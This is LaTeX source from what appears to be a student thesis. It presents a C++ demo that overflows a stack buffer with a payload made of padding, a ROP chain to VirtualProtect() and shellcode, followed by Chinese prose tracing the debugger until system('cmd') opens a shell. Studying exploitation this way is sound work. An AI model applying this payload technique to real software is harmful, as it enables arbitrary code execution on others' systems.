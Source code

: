 \documentclass[bachelor]{thesis-uestc}
\begin{document}
\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
// Release版本会把strcpy优化掉(直接嵌入strcpy的代码), 所以需要自己写一个
char* vulnerable_strcpy(char *dst, const char *src)
{
	char *_dst = dst;
	while ((*dst++ = *src++) != '\0');
	return _dst;
}

int main()
{
	char buf[128];
	memset(buf, 0xaa, sizeof(buf)); // mark buf, for debugging
	printf("&buf = %.8x\n", (int)buf);

	memset(payload, 'A', sizeof(buf) + 4); // payload一直覆盖到返回地址前
	memcpy(payload + sizeof(buf) + 4, // rop_chain从返回地址处开始
		rop_chain,
		rop_chain_len);
	vulnerable_strcpy(payload + sizeof(buf) + 4 + rop_chain_len, // rop_chain后跟shellcode
		shellcode);
	memcpy(buf, payload, payload_len); // overflow
}
\end{lstlisting}

通过memcpy()向buf[]拷贝payload将发生栈溢出，最后main函数执行``RET''时就会跳转到ROP链的第一个gadget，如图\ref{fig:debug1}所示。当执行到那个跳转到VirtualProtect()的``JMP EAX''时，栈帧如图\ref{fig:debug2}所示，与之前的分析结果一致。继续单步，成功跳入VirtualProtect()，如图\ref{fig:debug3}所示。当ROP链执行结束后跳转到shellcode，如图\ref{fig:debug4}所示。shellcode最终执行到``CALL EAX''，准备system(``cmd'')函数调用，如图\ref{fig:debug5}。最后system(``cmd'')成功打开一个shell，如图\ref{fig:debug6}所示。
\end{document}

